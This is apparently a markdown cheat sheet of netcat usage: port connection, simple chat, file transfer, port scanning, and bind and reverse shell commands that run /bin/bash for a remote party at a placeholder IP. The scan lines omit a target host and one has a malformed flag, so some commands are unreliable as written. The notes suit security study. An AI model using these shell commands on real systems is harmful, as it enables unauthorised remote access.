




## Netcat


### Communicating to open ports
`nc -nv <ip.add.res.s> <port>`


```
-n: skip name resolution
-v: verbose
target IP address
target port
```

### Client/Server

#### Server
Listening on port 4444
`nc -nvlp 4444`

```
-n: skip name resolution
-v: verbose
-l: listen
-p: port
```


#### Client
`nc -nv <ip.add.res.s> 4444`

```
This can now be used as simple chat service/application.
```


### File transfer


#### Server
`nc -nlvp 4444 > incoming.exe`



#### Client

`nc -nv <ip.add.res.s> 4444 < <file_to_transfer.exe>`




### Administration

The netcat traditional version of Netcat (compiled with the "-DGAPING_SECURITY_HOLE" flag) enables the -e option, which executes a program after making or receiving a successful connection.

#### Redirection

`-e` option can redirect input/output and error messages of executable to TCP/UDP port.

##### Shell binding

###### Server
`nc -nvlp 4444 -e /bin/bash` 

###### Client
`nc -nv <ip.add.res.s> 4444`
(Above clent will be presented shell of server this is called shell binding)





##### Reverse Shell

###### Server
`nc -nvlp 4444`

###### Client
`nc -nv <ip.add.res.s> 4444 -e /bin/bash`

Client gives shell access to server.




### TCP Scanning

- Port scan on ports 3000-3999

`nc -nvv -w 1 -z 3000-3999`

### UDP Scanning

`nc -nv -u -z - w 1 3000-3999`
